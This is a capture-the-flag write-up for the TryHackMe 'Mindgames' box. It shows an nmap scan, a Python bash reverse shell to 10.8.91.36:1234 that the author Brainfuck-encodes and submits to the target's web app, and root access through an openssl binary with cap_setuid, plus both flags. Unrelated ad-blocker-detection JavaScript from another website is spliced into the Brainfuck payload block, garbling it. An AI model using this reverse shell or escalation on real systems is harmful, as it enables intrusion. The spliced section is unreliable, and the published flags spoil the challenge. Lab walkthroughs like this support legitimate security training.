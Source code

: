 # writeups
--namp==
```
22/tcp   open     ssh        syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 244f06260ed37cb8184240127a9e3b71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDffdMrJJJtZTQTz8P+ODWiDoe6uUYjfttKprNAGR1YLO6Y25sJ5JCAFeSfDlFzHGJXy5mMfV5fWIsdSxvlDOjtA4p+P/6Z2KoYuPoZkfhOBrSUZklOig4gF7LIakTFyni4YHlDddq0aFCgHSzmkvR7EYVl9qfxnxR0S79Q9fYh6NJUbZOwK1rEuHIAODlgZmuzcQH8sAAi1jbws4u2NtmLkp6mkacWedmkEBuh4YgcyQuh6jO+Qqu9bEpOWJnn+GTS3SRvGsTji+pPLGnmfcbIJioOG6Ia2NvO5H4cuSFLf4f10UhAC+hHy2AXNAxQxFCyHF0WVSKp42ekShpmDRpP
|   256 5c2b3c56fd602ff728344755d6f88dc1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNlJ1UQ0sZIFC3mf3DFBX0chZnabcufpCZ9sDb7q2zgiHsug61/aTEdedgB/tpQpLSdZi9asnzQB4k/vY37HsDo=
|   256 da168b14aa580ee174856fafbf6b8d58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrqeEIugx9liy4cT7tDMBE59C9PRlEs2KOizMlpDM8h
80/tcp   open     http       syn-ack     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9001/tcp filtered tor-orport no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

===mindgames website comment===

```
 <!-- That's a lie, I enjoyed making this. -->
```

```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
it's brainfuck program language a quite search, and I also found a website to write or unwrite
`https://www.tutorialspoint.com/execute_brainfk_online.php`, and this one are most recommend
`https://www.dcode.fr/brainfuck-language`, so I also notice that when you pass a brainfuck line
it shows you some python syntax, that mean the code behind execute some python script, doing some seach
I see we can try an reverseShell by python;

```
import os

os.system(‘bash -c “bash -i >& /dev/tcp/10.8.91.36/1234 0>&1”’)
```
myscript before to convert in brainfuck,

`import oso…"')++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.++++.+++.-.+++.++.<<++.>>-----.++++.<<<..>>>----.++++.<<++++++++++++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-----------.-.++++++++++++++++++.-----------.<<-------.+++++++++++++.>>-----.<<-------------.++.>>-.-.++++++++++++++++++.-----------.<<--.+++++++++++++.>>+.<<-------------.>--------.<++++++.------.+++++++++++++++.>>-----.+.+++++++++++++++++.<<.>>--.-----------------.+++++++++++++.<<.++.-.--.>------.<.>+.<+++.---.+++++.+++.-------.++.+.+.+.--------------------.>---------.++++++++++++++.<++++++.+++++++++++.---------------.+++++.++.var left_space = document.getElementById('logo').getBoundingClientRect().left;if (left_space > 100) { var js_info = '- Report <a href=\'javascript:show_contact_form()\'>a problem</a><br/>- Suggest <a href=\'javascript:show_contact_form()\'>an improvement or an idea</a><br/>- Ask for <a href=\'javascript:show_contact_form()\'>explanations</a>.'; $('#results').qtip({ content:{text:js_info},position:{my:'top right',at:'top left'},hide:{fixed:true,delay:500,inactive:3000},style:{width:left_space,tip:{corner:'right middle'}}});}#h15823bf{position:fixed !important;position:absolute;top:23px;top:expression((t=document.documentElement.scrollTop?document.documentElement.scrollTop:document.body.scrollTop)+'px');left:16px;width:91%;height:93%;background-color:#fff;opacity:.90;filter:alpha(opacity=90);display:block;padding:20% 0}#h15823bf{text-align:center;margin:0 auto;display:block;filter:none;font:bold 1.25em Verdana,Arial,sans-serif;text-decoration:none}#h15823bf small {font: 0.85em Verdana;} #h15823bf ~ *{display:none}(function(l,m){ function n(a){a&&h15823bf.nou();}var h=l.document; var p=['i','s'];//if (window.dCode.adBlock??true) $.ajax({async:0,url:'/static/ads/ad_service.js',dataType:'script'}).fail(function(){window.dCode.adBlock=true;}).done(function(){window.dCode.adBlock=false;});n.prototype={rand:function(a){return Math.floor(Math.random()*a)},getElementBy:function(a,b){return a?h.getElementById(a):h.getElementsByTagName(b)},getStyle:function(a){var b=h.defaultView;return b&&b.getComputedStyle?b.getComputedStyle(a,null):a.currentStyle},deferExecution:function(a){setTimeout(a,'.1214.')},insert:function(a,b){var e=h.createElement('div'),c=h.body,d=c.childNodes.length,g=c.style,f=0,k=0;if('h15823bf'==b){e.setAttribute('id',b);g.margin=g.padding=0;g.height='100%';for(d=this.rand(d);f<d;f++)1==c.childNodes[f].nodeType&&(k=Math.max(k,parseFloat(this.getStyle(c.childNodes[f]).zIndex)||0));k&&(e.style.zIndex=k+1);d++}e.innerHTML=a;c.insertBefore(e,c.childNodes[d-1])},r:function(a){var b=h.body.style;this.getElementBy(a).parentNode.removeChild(this.getElementBy(a));b.height=b.margin=b.padding=''},aoj:function(a){a='abiuq'.charAt(this.rand(4));this.insert('<'+a+'>Oops! Issue detected!<br><br> <small>Something is blocking dCode and prevent it to load correctly.</small><br><br> 1/ Check connection status and/or browser update<br><br> 2/ Whitelist <code>dcode.fr</code> and/or disable your ad-blocker <small>(<a target=\"_blank\" href=\"https://www.wikihow.com/Disable-Your-Ad-Blocker\">How?</a>)</small><br><br> Thank You<br><br>'+('<input type="button" onclick="h15823bf.r(\'h15823bf\')" value="OK"></'+a+'>'),'h15823bf')},i:function(){for(var a='ad,ads,adsense,criteo'.split(','),b=a.length,e='',c=this,d=0,g='abiuq'.charAt(c.rand(4));d<b;d++)c.getElementBy(a[d])||(e+='<'+g+' id="'+a[d]+'"></'+g+'>');c.insert(e);c.deferExecution(function(){for(d=0;d<b;d++)if(null==c.getElementBy(a[d]).offsetParent||'none'==c.getStyle(c.getElementBy(a[d])).display||(window.dCode.adBlock||false))return c.aoj('#'+a[d]+'('+d+')');c.nou()})},s:function(){var a={'pagead2.googlesyndic':'google_ad_client'},b=this,e=b.getElementBy(0,'script'),c=e.length-1,d,g,f,k;h.write=null;for(h.writeln=null;0<=c;--c)if(d=e[c].src.substr(7,20),a[d]!==m){f=h.createElement('script');f.type='text/javascript';f.src=e[c].src;g=a[d];l[g]=m;f.onload=f.onreadystatechange=function(){k=this;l[g]!==m||k.readyState&&'loaded'!==k.readyState&&'complete'!==k.readyState||(l[g]=f.onload=f.onreadystatechange=null,e[0].parentNode.removeChild(f))};e[0].parentNode.insertBefore(f,e[0]);b.deferExecution(function(){if(l[g]===m)return b.aoj(f.src);b.n`
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.++++.+++.-.+++.++.<<++.>>-----.++++.<<<..>>>----.++++.<<++++++++++++++.>>.++++++.------.+.---------------.++++++++.<<------.-.>>-----------.-.++++++++++++++++++.-----------.<<-------.+++++++++++++.>>-----.<<-------------.++.>>-.-.++++++++++++++++++.-----------.<<--.+++++++++++++.>>+.<<-------------.>--------.<++++++.------.+++++++++++++++.>>-----.+.+++++++++++++++++.<<.>>--.-----------------.+++++++++++++.<<.++.-.--.>------.<.>+.<+++.---.+++++.+++.-------.++.+.+.+.--------------------.>---------.++++++++++++++.<++++++.+++++++++++.---------------.+++++.++.
``` 
and here the result after brainfuck it, and after paste it into the mindgames websit and make my nc session
for the revshell, I got the shell, navigate to my user, and here the 1st flag

`thm{411f7d38247ff441ce4e134b459b6268}`, sudo don't work, no crontab, no strange file, so 
trying to get some capabilities(I could use linpeas to help me but I prefer work like that)  and I got

```
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```
 the ssl one, it's a good one when I explore payloadAllTheThings,and when you see *ep* that
mean the cap has all the capabilities available, what I gonna doing next I got it from my writeups

`https://tonyrahmos.medium.com/mindgames-tryhackme-writeup-1fc9e08e45da`


to prevent some error `openssl/engine.h` not found I was too install this 

```
sudo apt-get install libssl-dev
```
after that the script worked, and I upload the script in the victim box by wget, and
execute this

`openssl req -engine <scriptDir>` after a while os spectating a bunch of errors, I finally
did it, root session

https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/, this resource
helps me better to understand more what I was doing, and here we go to the 2nd flag

`thm{1974a617cc84c5b51411c283544ee254}`
